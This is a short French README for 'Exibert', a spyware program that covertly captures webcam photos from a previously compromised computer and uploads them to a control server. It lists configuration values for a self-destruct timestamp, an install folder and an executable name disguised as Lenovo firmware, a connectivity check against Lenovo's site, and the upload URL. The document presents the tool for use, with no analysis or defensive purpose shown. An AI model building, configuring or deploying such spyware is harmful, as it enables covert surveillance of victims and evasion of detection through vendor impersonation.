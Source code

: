# Exibert

![](./exibert_icon.jpg)

Exibert permet de prendre régulièrement plusieurs photos de la webcam d'un ordinateur préalablement piégé et d'envoyer ces dernières sur un serveur web.

#### Configuration 

Dans le fichier `global.cpp` plusieurs paramètres sont disponibles :

 - `float GLOBAL_expirationTimestamp = 1560616327000;` Temps UNIX qui
   déclenche l'autodestruction du programme.
- `QString GLOBAL_nameInstallPath = "Lenovo";` Nom du sous-répertoire où sera stocké le programme (lui même sera dans ProgramData).
- `String GLOBAL_nameInstallRun = "LenovoFirmware.exe";` Nom du programme.
- `QString GLOBAL_networkTestUrl = "http://support.lenovo.com/us/en/";` URL qui sera testé pour détecter la présence d'une connexion réseau opérationnelle.
- `QString GLOBAL_networkSendUrl = "http://url.ntd/control.php";` URL de la page contrôle qui reçoit les images.

